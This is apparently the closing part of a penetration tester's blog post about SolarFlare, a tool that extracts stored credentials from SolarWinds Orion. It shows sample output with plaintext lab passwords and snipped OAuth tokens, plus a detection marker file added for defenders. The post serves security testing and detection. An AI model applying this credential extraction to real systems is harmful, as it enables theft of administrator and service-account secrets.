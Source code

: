 ```
------------------13--------------------------
------------------14--------------------------
| Type: SolarWinds.SRM.Common.Credentials.SmisCredentials
| Name: EMC_SMIS_Solarwinds
| 	Desc:
| 	Owner: SRM
| 		HttpPort: 5988
| 		HttpsPort: 5989
| 		InteropNamespace: /interop
| 		Namespace: root/emc
| 		Password: ASDqwe123
| 		Username: solarwinds
| 		UseSSL: true
------------------14--------------------------
------------------15--------------------------
| Type: SolarWinds.ESI.Common.Connection.ExternalSystemCredential
| Name: ESC
| 	Desc:
| 	Owner: ESI
| 		Password: ASDqwe123
| 		Username: solar_winds
------------------15--------------------------
------------------16--------------------------
| Type: SolarWinds.Orion.Web.Integration.OAuth2Token
| Name: SITTINGDUCK\uberuser
| 	Desc:
| 	Owner: Web.Integration
| 		AccessToken: GthQHd3<snip>
| 		AccessTokenExpiration: 2020-11-01T10:52:50.2768075Z
| 		AccessTokenIssueDate: 2020-11-01T09:52:51.2768075Z
| 		RefreshToken:hEyph9WqIfzm<snip>
| 		Scopes:
| 		Username: uberuser@sittingduck.info
------------------16--------------------------
------------------17--------------------------
| Type: SolarWinds.SRM.Common.Credentials.XtremIoHttpCredential
| Name: XtremIO_Admin
| 	Desc:
| 	Owner: SRM
| 		HttpPort: 80
| 		HttpsPort: 443
| 		Password: ASDqwe123
| 		Username: admin
| 		UseSsl: true
------------------18--------------------------
============================================
============================================
```

If you've made it this far, you can find the project over at https://github.com/mubix/solarflare.
Also, for defenders, I have added the creation of the file "SolarFlare" in `C:\Windows\Temp\` when you run SolarFlare. Hopefully that will help catch any pentesters or script kiddies that don't read code or compile for themselves.